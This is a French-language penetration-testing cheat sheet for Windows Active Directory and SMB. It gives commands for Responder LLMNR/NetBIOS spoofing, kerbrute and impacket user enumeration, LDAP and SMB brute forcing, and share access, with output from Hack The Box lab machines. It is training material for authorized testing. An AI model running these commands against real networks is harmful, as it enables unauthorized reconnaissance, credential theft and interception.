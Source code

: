 # Windows AD et SMB (reseau)


## Netexec

[NetExec](https://github.com/Pennyw0rth/NetExec)


## Responder

[Responder](https://github.com/lgandx/Responder)



### llmnr et netbios spoofing, netLM interception

```sh
sudo responder -I tun0
```

* log path: /usr/share/responder/logs/


### MITM / relay kerberos

[krbrelayx](https://github.com/dirkjanm/krbrelayx)


## AD users

### enumeration des utilisateurs:

```sh
nmap --script smb-enum-users.nse -p 445 <host>
sudo nmap -sU -sS --script smb-enum-users.nse -p U:137,T:139 <host>
```

### ridenum (apt install)

#### Connect to the remote server (192.168.1.236) and cycle from RID 500 to 50000 (500 50000), using the given password file (/tmp/passes.txt):

```sh
ridenum 192.168.1.236 500 50000 /tmp/passes.txt
```
### impacket

```sh
/usr/share/doc/python3-impacket/examples/lookupsid.py HTB/svc-alfresco:s3rvice@10.10.10.161
```

#### sans authent

```sh
/usr/share/doc/python3-impacket/examples/GetADUsers.py  -all -no-pass -dc-ip 10.10.10.172 MEGABANK.LOCAL/
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Querying 10.10.10.172 for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
Guest                                                 <never>              <never>             
AAD_987d7f2f57d2                                      2020-01-02 23:53:24.984897  2020-01-13 20:26:39.751833 
mhope                                                 2020-01-03 00:40:05.908924  2020-01-03 14:29:59.037500 
SABatchJobs                                           2020-01-03 13:48:46.392235  2020-01-14 17:42:40.486176 
svc-ata                                               2020-01-03 13:58:31.332169  <never>             
svc-bexec                                             2020-01-03 13:59:55.863422  <never>             
svc-netapp                                            2020-01-03 14:01:42.786264  <never>             
dgalanos                                              2020-01-03 14:06:10.519660  <never>             
roleary                                               2020-01-03 14:08:05.832167  <never>             
smorgan                                               2020-01-03 14:09:21.629084  <never>             
```

#### SPN

```powershell
setspn
setspn -Q */*
```

## Enum4linux

```sh
Enum4linux <IP>
```

# Kerberos:

* sur le rzo: scanner les ports 88

* en local: `dsquery server`

## kerbute

```sh
 ./kerbrute_linux_amd64 userenum -d HTB.local --dc 10.10.10.161 user 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.2 (fd5f345) - 10/15/19 - Ronnie Flathers @ropnop

2019/10/15 17:31:39 >  Using KDC(s):
2019/10/15 17:31:39 >  	10.10.10.161:88

2019/10/15 17:31:39 >  [+] VALID USERNAME:	 Administrator@HTB.local
2019/10/15 17:31:39 >  [+] VALID USERNAME:	 andy@HTB.local
2019/10/15 17:31:39 >  [+] VALID USERNAME:	 lucinda@HTB.local
2019/10/15 17:31:39 >  [+] VALID USERNAME:	 mark@HTB.local
2019/10/15 17:31:39 >  [+] VALID USERNAME:	 santi@HTB.local
2019/10/15 17:31:39 >  [+] VALID USERNAME:	 sebastien@HTB.local
2019/10/15 17:31:39 >  [+] VALID USERNAME:	 svc-alfresco@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 EXCH01$@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailbox0659cc1@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailbox6ded678@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailbox7108a4e@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailbox83d6781@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailbox968e74d@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailboxb01ac64@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailboxc0a90c9@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailboxc3d7722@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailboxfc9daad@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailboxfd87238@HTB.local
2019/10/15 17:31:40 >  Done! Tested 32 usernames (18 valid) in 0.461 seconds
```


## LDAP

```sh
sudo nmap -p 389 --script ldap-brute --script-args ldap.base='"cn=users,dc=megabank,dc=local"' 10.10.10.172
```

### une fois qu'on a un compte:

```sh
ldapdomaindump -u DANTE.LOCAL\\mrb3n -p Welcome1 172.16.1.20
```


## NETBIOS

```sh
nbtscan 192.168.1.1/24  
nmblookup -A 10.10.10.161
```


## RPC

### samrdump.py: An  application that communicates with the Security Account Manager(SAM)  Remote interface from the MSRPC suite. 

```sh
/usr/share/doc/python3-impacket/examples/samrdump.py 10.10.10.161
```

### lookupsid.py: This script allows you to bruteforce the Windows SID through [MS-LSAT] MSRPC Interface, aiming at finding remote users/groups.

```sh
/usr/share/doc/python3-impacket/examples/lookupsid.py user:motdepasse@10.10.10.149
```


### autres:

```
nmap <target> --script=msrpc-enum

rpcclient -U "" -N 192.168.1.102

enumdomusers

queryuser 0x3e8
```


## smbclient


### enumeration des share smb:

```sh
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <host>
nmap -p 445 --script smb-os-discovery <host>
nmap -sV -p 445 --script smb-brute <host>
nmap --script smb-vuln* -p 139,445 <host>
```

### smbmap

```sh
smbmap -H 10.10.10.161
smbmap -u test -H 172.16.1.101
```

### impacket:

```sh
proxychains impacket-smbclient 172.16.1.17
```

```sh
/usr/share/doc/python3-impacket/examples/smbclient.py HTB/svc-alfresco:s3rvice@10.10.10.161
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

Type help for list of commands
# shares
ADMIN$
C$
IPC$
NETLOGON
SYSVOL

#use <share>
#ls
#get

#smbclient
smbclient -L 192.168.1.102
smbclient //192.168.1.102/tmp       
smbclient --user=Hazard -L 10.10.10.149
smbclient -L \\HTB -I 10.10.10.161 -N
```


## RDP

### linux client

#### rdesktop

```sh
rdesktop <IP>
```

#### xfreerdp

```sh
xfreerdp /u:admin /p:password /cert:ignore /v:MACHINE_IP /workarea
```

#### remmina

```sh
sudo remmina
```
### Windows

```powershell
mstsc.exe
```

### Alternatives

[PsMapExec](https://github.com/The-Viper-One/PsMapExec)